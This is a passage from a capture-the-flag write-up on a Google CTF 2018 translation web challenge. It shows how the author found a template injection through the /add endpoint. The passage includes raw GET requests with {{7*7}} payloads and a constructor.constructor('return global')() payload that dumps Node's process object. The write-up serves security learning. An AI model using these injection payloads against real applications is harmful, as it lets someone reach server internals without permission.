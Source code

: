 ### `/addwords`:

Words can be added to the end of the array in `/dump`, as attempted in Step 1. It is stored in a "key":"value" format.

![debug](https://ylkoh.top/assets/Google-CTF-2018/debug.png)

### `/reset`:

Self-explanatory. Resets the challenge in case you are unable to undo the changes you've made.

# Steps

### 1. Finding the injection point

It looks like there might be a template injection, so let's try submitting the classic `{{7*7}}` payload.

![7x7fail](https://ylkoh.top/assets/Google-CTF-2018/7x7fail.png)

Doh! Clearly we have to add it into the dictionary first. Also notice how `{{userQuery}}` is the element that outputted our input? There must be another way to write into the `input_query`.
Let's take a look at the HTTP request and see if we can manipulate it somehow:     
`GET /add?lang=fr&word=%7B%7B7*7%7D%7D&translated=%7B%7B7*7%7D%7D HTTP/1.1`

Both values are user-controlled. This is when I noticed that `input_query` is not an object, unlike `{{userQuery}}` - what if we wrote a translation for `input_query`?

`GET /add?lang=en&word=input_query&translated={{7*7}}` gives us:

![49](https://ylkoh.top/assets/Google-CTF-2018/49.png)

And we've got it! A successful template injection. Bug bounty hunters would be happy to get up to this step and would probably look for a way to break the Angular JS sandbox in order to get an XSS. But that's not our goal today.

### 2. Experimenting with payloads

Let’s try other queries. How about `{{this}}`?

![this](https://ylkoh.top/assets/Google-CTF-2018/this.png)

Hmm it just says that this is the $SCOPE. Which means that we must be in a constructor now. Maybe we could try to find other global variables too?

Using `{{constructor.constructor('return+global')()}}`,

```
{
	"process": {
	"argv": [],
	"title": "node",
	"version": "v8.11.3",
	"versions": {
	"http_parser": "2.8.0",
	"node": "8.11.3",
	"v8": "6.2.414.54",
	"uv": "1.19.1",
	"zlib": "1.2.11",
	"ares": "1.10.1-DEV",
	"modules": "57",
	"nghttp2": "1.32.0",
	"napi": "3",
	"openssl": "1.0.2o",
	"icu": "60.1",
```